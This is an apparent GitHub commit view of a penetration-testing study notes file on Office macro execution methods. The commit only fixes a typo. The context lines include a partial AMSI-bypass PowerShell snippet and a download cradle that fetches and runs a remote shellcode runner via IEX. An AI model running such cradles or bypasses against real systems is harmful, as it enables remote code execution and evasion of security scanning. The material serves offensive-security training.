

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Macro execution methods.md, the part around the change. GitHub-like rendering.

```diff
--- a/Macro execution methods.md
+++ b/Macro execution methods.md
@@ -137,7 +137,7 @@ $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c
 
 IEX(New-Object System.Net.WebClient).downloadString('http://192.168.1.1/run.ps1')
 
-The run.ps1 file is a powershell shellcode runner. Due to the complexity of this technique, we will base64 encode our PowerShell download cradle ass follows:
+The run.ps1 file is a powershell shellcode runner. Due to the complexity of this technique, we will base64 encode our PowerShell download cradle as follows:
 ~# pwsh
 ❯ pwsh
 PowerShell 7.2.1
```
